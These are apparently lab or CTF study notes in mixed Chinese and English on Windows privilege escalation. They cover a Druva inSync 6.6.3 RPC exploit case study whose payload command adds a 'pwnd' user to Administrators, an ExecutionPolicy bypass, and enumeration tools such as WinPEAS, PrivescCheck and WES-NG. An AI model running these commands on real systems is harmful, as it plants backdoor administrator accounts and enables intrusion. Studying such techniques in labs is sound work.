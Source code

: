 	--> Unpatched Software
		--> 列出目標系統上安裝的軟體及其版本 
			--> wmic product get name,version,vendor
			--> 搜索已安裝軟體的現有漏洞
			
	--> Case Study: Druva inSync 6.6.3
		--> 以系統權限在連接埠 6064 上執行 RPC
		--> C:\tools\Druva_inSync_exploit.txt
		--> change the $cmd 
			=>  $cmd = "net user pwnd /add"
			=>  $cmd = "net user pwnd SimplePass123 /add & net localgroup Administrators pwnd /add"
				=> Username pwnd | Password : SimplePass123
		--> 使用 Powershell ISE :  upload 漏洞利用程式碼
			--> test (user PS >): net user pwnd 
				=> Local Group Memberships      *Administrators       *Users   
		--> type C:\Users\Administrator\Desktop\flag.txt
            
## Tools of the Trade :
	=> need 上傳到目標系統並在那裡運行它們  	
	--> WinPEAS
		--> 用於列舉目標系統以發現權限提昇路徑的腳本
		--> https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS
		--> cmd : 
			--> C:\> winpeas.exe > outputfile.txt
			
	--> PrivescCheck :
		--> 是一個PowerShell腳本，用於搜尋目標系統上的常見權限升級
		--> https://github.com/itm4n/PrivescCheck
		--> PS :
			--> PS C:\> Set-ExecutionPolicy Bypass -Scope process -Force
			--> PS C:\> . .\PrivescCheck.ps1
			--> PS C:\> Invoke-PrivescCheck
			 		
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> WES-NG: Windows Exploit Suggester - Next Generation
		--> 是一個 Python 腳本
		--> https://github.com/bitsadmin/wesng
		
		--> wes.py --update命令來更新資料庫
		--> systeminfo 需在目標系統上執行該命令 | cmd 
			--> systeminfo [/s <computer> [/u <domain>\<username> [/p <password>]]] [/fo {TABLE | LIST | CSV}] [/nh]
		--> 將輸出定向到您需要移動到攻擊電腦的 .txt 檔案
			--> user@kali$ wes.py systeminfo.txt
		
	--> Metasploit :
		--> Meterpreter shell 
			--> multi/recon/local_exploit_suggester 
## command : 
	--> 權限 icacls : 
		--> https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls
		--> F - 完全存取權限
		--> M - 修改存取權限
		--> AD - 追加資料/新增子目錄
		--> WD - 寫入資料/新增文件
		--> (I) - 繼承
		